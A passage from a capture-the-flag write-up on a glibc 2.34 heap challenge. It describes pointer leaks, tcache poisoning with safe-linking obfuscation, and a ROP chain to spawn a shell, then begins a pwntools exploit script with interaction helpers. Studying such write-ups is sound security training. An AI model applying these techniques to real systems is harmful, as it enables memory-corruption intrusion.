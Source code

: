 Next we need a libc pointer. We can use the same method of overwriting to overwrite a chunk size to be 0x421. Then free that pointer to get a libc pointer. Then overflow untill we hit the libc pointer to leak again.

Once leaking is done, we can just overflow into the free pointers of the tcache bins. But since this is libc 2.34 no free hook is available (I think). So we'll instead leak the stack as well.

To leak the stack, we use the overflow again to overwrite a free pointer to point at __libc_argv. We need to remember to obfuscate the pointer we are writing as this is libc-2.34.

Obfuscation can be done as follows:
```py
def obfuscate(pos,ptr):
    return (pos>>12) ^ ptr
```

Next we allocate that chunk and fill it with data untill we hit the stack pointer. Then show that chunk.

Once we have a stack leak, we just need to allocate a chunk on top of the return pointer for create, with a ROP chain. Again this is done by overflowing into a free pointer, and then allocating that free pointer.

In short we:
1. Use overflow to write up to heap free ptr and leak it. Then deobfuscate it
2. Use overflow to overwrite size of a chunk, then free it to get a libc pointer. Leak by using the same method as in 1
3. Use overflow to allocate a chunk on top of __libc_argv. Fill it with data untill we can leak the pointer
4. Use overflow to allocate a chunk on top of the create functions return pointer, to allocate a ROP chain and spawn shell


Exploit:

```py
from pwn import *

gdbscript = """
c
"""
#io = gdb.debug("./runic",gdbscript=gdbscript)
#io = process("./runic")
io = remote("165.227.224.40",32085)

def create(name,size,data):
    io.recvuntil(b'Action:')
    io.sendline(b'1')
    io.recvuntil(b'Rune name:')
    io.send(name)
    io.recvuntil(b'Rune length')
    io.send(f"{size}".encode())
    io.recvuntil(b'Rune contents:')
    io.send(data)

def delete(name):
    io.recvuntil(b'Action:')
    io.sendline(b'2')
    io.recvuntil(b'Rune name:')
    io.send(name)

def show_rune(name):
    io.recvuntil(b'Action:')
    io.sendline(b'4')
    io.recvuntil(b'Rune name:')
    io.send(name)
    io.recvuntil(b'Rune contents:\n\n')
    return io.recvline()
```